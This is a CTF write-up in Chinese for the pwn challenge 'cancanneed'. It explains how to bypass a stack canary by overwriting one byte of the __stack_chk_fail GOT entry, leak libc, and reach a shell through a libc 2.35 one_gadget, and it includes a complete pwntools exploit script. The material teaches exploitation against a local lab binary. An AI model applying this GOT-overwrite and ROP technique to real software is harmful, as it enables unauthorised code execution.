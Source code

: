# cancanneed

## 出题思路

本题出题的思路是想考一考canary的绕过方式，原本预期是想通过任意7字节写入修改`fs[0x28]`位置存储的canary的值。但是考虑到该种利用方式并不常见，既然都可以任意字节写了，那么可以修改`__stack_chk_fail`函数的got表来绕过canary的检测。

同时，为了增加一些难度，进行了`close(1)`的操作，拿到shell后需要使用`exec 1>&2`的方式进行输出流重定向到错误流，这样就可以正常回显。

最后，在最后一步的rop获取shell的时候，只能写入0x18的rop链，由于栈的问题，常用的`pop_rdi、/bin/sh、system`的rop链由于缺少了`ret`进行抬栈，所以会直接EOF。为了解决这样的问题，可以选择`one_gadget`进行一步到位。考虑到libc2.35的one_gadget利用条件苛刻，出题时人为添加了一个gadget:`pop r10; ret;`，该条gadget可以配合修改rbp的值到bss段，满足如下one_gadget的条件

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

## 解题步骤

### 0x1
首先拿到题目的第一步，使用`checksec`进行检测，发现开启了`canary`，但是没开启`pie`

![checksec.png](./imgs/checksec.png)

### 0x2
再用ida打开，发现main函数中的read可以直接从ret_address的位置开始写，能够写0x20字节的rop链。同时限制了rop链不能重新执行main函数，所以不断返回main函数然后写rop的思路就无法实现了。但是可以通过puts的方式获取libc的基地址。

![main.png](./imgs/main.png)

同时由于程序没删除符号表，看到有一个vuln的函数

![vuln.png](./imgs/vuln.png)

那么第一步的思路还是比较清晰的，main中的rop链可以这样写
- pop_rdi
- elf.got["puts"]
- elf.plt["puts"]
- vuln_address

这样输出了puts函数的真实地址的同时，会继续执行`vuln`函数

### 0x3
现在来分析vuln函数，发现可以任意地址写1字节，然后有一个0x18大小的rop链可以编写。

但是存在一个问题，那就是canary如何绕过？

可以想到这个任意地址写1字节是用来绕过canary的！

但是如何绕过？

我们使用gdb启动程序，查看程序的got表，如下是从未初始化的got表，也就是一个函数都没有执行：

![gdb.png](./imgs/gdb.png)

我们知道，canary的判断函数是`__stack_chk_fail`，如果我们把这个got表给修改了，那么canary的检测就可以绕过。

但是我们有个疑问，就是上图中红框的数据是什么？

其实这就设计到了动态链接的原理，上图的红框中的地址都是第一次用来寻找libc中真实地址的跳转。如果某个函数是第一次执行，那么就会jmp到这个红框地址中，去libc中寻找这个函数的真实地址，找到之后将真实地址重新写回got表中。

所以我们可以将`__stack_chk_fail`的got表中写入一字节，让`0x404028 (__stack_chk_fail@got.plt) —▸ 0x401050`指向`0x401060`，也就是close。当然其他的可执行地址。但是实际测试只能指向read的`0x401070`和close的`0x401060`。


### 0x4

绕过了canary的检测后，我们有0x18额外的字节来写rop链。

首先想到的是常规的rop链
- pop_rdi
- /bin/sh
- system

但是由于高版本的libc需要栈对齐，但是本题没有位置输入`ret`来执行栈对齐。所以需要换一个思路——`one_gadget`

通过查询`one_gadget`的满足条件，我们发现了一个需要`r10`和`[rbp-0x70]`满足条件的gadget

```bash
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

由于我们在写rop的时候可以覆盖`rbp`，同时只需要将`rbp`指向bss段中没有数据的地方，那么就能满足`[rbp-0x70] == NULL`。

同时我们发现elf的gadget中存在一个`pop r10; ret;`，我们可以通过这个gadget将r10置为0。

![gadget.png](./imgs/gadget.png)

所以我们的rop链是
- padding
- rbp --> bss
- pop_r10
- 0
- one_gadget

这样就能获取shell辣！

### 0x5

获取了shell还不行，本题执行了`close(1)`，关闭了输出流。需要使用重定向的方式重新开启输出流：`exec 1>&2`，让输出流重定向到错误流，这样就能真正获取输出辣！

### exp

```python
#!/usr/bin/python3
# -*- coding: UTF-8 -*-
# -----------------------------------
# @File    :  exp.py
# @Author  :  woodwhale
# @Time    :  2023/03/06 12:00:25
# -----------------------------------

from pwn import *

DEBUG = 1
context.log_level = "debug"
context.arch = "amd64"

io = process("../file/cancanneed") if DEBUG else remote("127.0.0.1", 20003)
elf: ELF = ELF("../file/cancanneed")
libc: ELF = elf.libc

sa = lambda word, data: io.sendafter(word, data)
sl = lambda data: io.sendline(data)
l64 = lambda: u64(io.recvuntil(b"\x7f", False)[-6:].ljust(8, b"\x00"))

vuln_addr = 0x40124D
pop_rdi = 0x4011DE
pop_rsi = 0x4011E0
pop_r10 = 0x4011E2
__stack_chk_fail_got = 0x404028
next_rbp = 0x404900

sa("ZJNUCTF!", flat([pop_rdi, elf.got["puts"], elf.sym["puts"], vuln_addr]))
libc.address = l64() - libc.sym["puts"]
print(f"libc_base --> {libc.address:#x}")

sa("read?", p64(__stack_chk_fail_got))
sa("ok", b"\x60")
sa("canary!", b"b" * 0x20 + flat([next_rbp, pop_r10, 0, libc.address + 0xEBCF1]))

time.sleep(0.5)
sl(b"exec 1>&2")    # 重定向

io.interactive()
```